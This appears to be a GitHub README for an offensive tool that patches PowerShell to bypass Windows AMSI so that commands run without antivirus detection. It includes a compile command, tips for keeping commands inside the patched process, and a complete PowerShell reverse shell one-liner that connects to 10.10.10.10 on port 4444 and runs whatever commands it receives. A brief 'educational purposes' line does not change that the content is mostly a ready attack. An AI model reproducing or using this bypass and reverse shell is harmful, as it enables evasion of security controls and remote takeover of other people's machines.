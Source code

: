 # AMSI Bypass & Command Executor

This project demonstrates how to bypass the anti-malware scanning interface (AMSI) in Windows PowerShell to execute PowerShell commands without being detected by antivirus software.

## How It Works

AMSI is a Windows security feature that checks for malicious code in PowerShell scripts before they are executed. By default, PowerShell enables AMSI, which makes it difficult for malicious code to run undetected. However, it is possible to bypass AMSI with certain techniques.

In this project, we use a technique that involves patching an existing PowerShell process to disable AMSI scanning. This approach ensures that the PowerShell script runs without triggering any antivirus software alarms.

## Compilation Command

To compile the code in this project, use the following command:

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important Notes

 - It is important to verify that any command you run uses only PowerShell to perform its designated tasks.
 - It is recommended to avoid using `powershell.exe <command>` and opt for `Invoke-Expression` instead. By doing so, the command will be executed in the patched PowerShell instance created by the executable.
 - Please note that this project is intended solely for educational purposes and should not be used for malicious activities.

## Example Script

Here is an example of a single line PowerShell script that can be encoded in base64 format and that you can use in the code. This script connects to a remote server at IP address `10.10.10.10` on port `4444` and starts a command shell.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```
